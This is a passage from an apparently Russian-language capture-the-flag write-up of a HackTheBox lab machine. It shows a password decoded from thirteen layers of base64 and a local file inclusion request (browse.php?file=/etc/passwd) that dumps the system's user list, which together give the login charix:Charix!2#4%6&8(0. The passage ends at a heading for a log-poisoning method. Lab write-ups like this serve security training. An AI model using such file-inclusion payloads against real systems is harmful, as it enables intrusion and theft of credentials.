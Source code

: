 13-кратно за'*base64*'ный пароль, что может быть надежнее. Смотрим, что внутри:

```
root@kali:~# wget http://10.10.10.84/pwdbackup.txt

root@kali:~# tail -n +3 pwdbackup.txt |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d
Charix!2#4%6&8(0
```

Заберем имя из `/etc/passwd` (LFI же!):
```
<!-- view-source:http://10.10.10.84/browse.php?file=/etc/passwd -->

# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

И, собственно, на этом все. Имеем логин и пароль — `charix:Charix!2#4%6&8(0` — для входа в систему.

На этом заканчивается простой способ.

## Захват пользователя. Способ 2, канонический (Log Poisoning)
